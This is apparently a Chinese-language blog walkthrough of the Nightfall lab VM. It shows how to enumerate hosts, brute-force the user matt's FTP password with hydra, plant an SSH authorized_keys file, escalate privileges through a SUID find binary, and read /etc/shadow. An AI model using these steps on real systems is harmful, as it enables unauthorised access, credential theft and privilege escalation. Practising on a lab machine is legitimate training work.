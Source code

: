 ```yaml
---
title: nightfall渗透测试
date: 2019-09-10 19:03:41
tags:
---
```


# 背景知识
[什么是SAMBA](https://www.ctolib.com/docs/sfile/vbird-linux-server-3e/114.html)

[enum4linux](https://hackfun.org/2016/10/23/Kali-Linux%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B9%8Benum4linux/)

[uid之ruid，euid，suid](https://cysecguide.blogspot.com/2016/10/difference-among-ruid-euid-suid.html)
1. https://brucechen7.github.io/2014/11/14/2014-11-14-euid-ruid-euid/
1. https://unix.stackexchange.com/questions/191940/difference-between-owner-root-and-ruid-euid
2. https://www.jianshu.com/p/23f2f2be2b29
1. https://www.cnblogs.com/limingluzhu/p/5702486.html
1. https://www.anquanke.com/post/id/86979 (推荐)

[/etc/passwd和/etc/shadow的区别](http://www.chinastor.com/os/linux/092034W22016.html)

# 攻击步骤
1. 发现主机
```
netdiscover
```
2. 扫描端口
```
nmap -A xx.xxx.xx.x
```
3. 发掘用户信息
```
enum4linux xx.xx.xx.x
```
4. 暴力破解ftp密码
```
hydra -l matt -P /usr/share/wordlists/rockyou.txt ftp xx.xx.xx.xx -e nsr
```
5. 发现用户matt的密码为cheese, 登录ftp
6. 创建`~/.ssh`文件夹
```
ftp> mkdir .ssh
```
6. 本地创建ssh的key并将`id_rsa.pub`复制一份重命名为`authorized_keys`
```
ssh-keygen
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```
8. nightfall上使用ftp上传本地的`~/.ssh/id_rsa.pub`到nightfall的新创建的`~/.ssh`文件夹下
```
ftp>cd .ssh
ftp>put authorized_keys
```
9. 直接登录matt账号
```
ssh matt@xx.xx.xxx.x
```
10. 查找具有SUID权限的文件
```
find / -perm -u=s -type f 2>/dev/null
```
11. 运行类find命令提权
```
cd /scripts
./find . -exec /bin/sh -p \; -quit
```
12. nightfall家目录下创建.ssh文件夹, 类似上传`authorized_keys`文件, 然后ssh登录nightfall账号
13. 读取shadow文件中的加密密码
```
sudo -u root cat /etc/shadow
```

```
nmap -sP -n -oX results.txt 10.188.1.1/16
grep -Eo 'addr=".*?" addrtype="ipv4"' results.txt | awk -F '"' '{print $2}' > ips.txt
nmap -sS -O -A -oX details.txt -iL ips.txt
```